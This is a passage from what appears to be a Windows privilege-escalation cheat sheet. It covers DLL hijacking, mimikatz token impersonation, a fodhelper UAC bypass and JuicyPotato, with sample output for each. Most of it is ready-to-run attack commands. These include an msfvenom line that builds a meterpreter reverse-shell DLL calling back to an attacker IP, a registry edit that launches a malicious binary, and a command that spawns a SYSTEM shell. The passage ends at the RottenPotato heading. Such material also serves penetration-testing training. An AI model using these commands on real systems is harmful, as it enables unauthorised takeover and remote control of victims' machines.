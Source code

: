     Find-PathDLLHijack
    ```
    **Example Output**:
    ```
    WritablePath: C:\Program Files\MyApp
    ```
    - Create a malicious DLL:
      ```bash
      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f dll -o C:\Program Files\MyApp\evil.dll
      ```
    - Run the vulnerable application to load the DLL.
    - **Purpose**: Gain elevated privileges when the application loads the malicious DLL.
- **Token Impersonation**:
  - **Technique**: Steal tokens from processes running as SYSTEM or Administrator.
  - **Execution**: Use `mimikatz` for token impersonation.
    ```bash
    mimikatz # token::elevate
    ```
    **Example Output**:
    ```
    Token Id: 0x123
    User: NT AUTHORITY\SYSTEM
    ```
    - Execute commands with the stolen token:
      ```bash
      mimikatz # misc::cmd
      ```
      **Example Output**: Command prompt opens as SYSTEM.
    - **Purpose**: Gain SYSTEM privileges by impersonating a high-privilege process.
- **UAC Bypass**:
  - **Technique**: Bypass User Account Control (UAC) using trusted binaries.
  - **Execution**: Use `fodhelper` bypass technique.
    ```powershell
    reg add HKCU\Software\Classes\.pwn\Shell\Open\command /ve /d "cmd.exe /c C:\Temp\malicious.exe" /f
    start fodhelper.exe
    ```
    **Example Output**: Malicious binary executes as SYSTEM.
    - **Purpose**: Escalate to SYSTEM without a UAC prompt.
- **Potato Techniques**:
  - **JuicyPotato**:
    - **Technique**: Exploit SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege to impersonate a SYSTEM token via DCOM or RPC.
    - **Execution**: Check for required privileges:
      ```powershell
      whoami /priv
      ```
      **Example Output**:
      ```
      Privilege Name                Description                          State
      SeImpersonatePrivilege        Impersonate a client after authentication  Enabled
      ```
      - Use `JuicyPotato` to spawn a SYSTEM shell:
        ```bash
        JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
        ```
        **Example Output**:
        ```
        [+] SYSTEM shell spawned
        ```
      - **Purpose**: Gain SYSTEM privileges by abusing impersonation privileges.
  - **RottenPotato**:
    - **Technique**: Exploit NTLM authentication to escalate privileges via DCOM.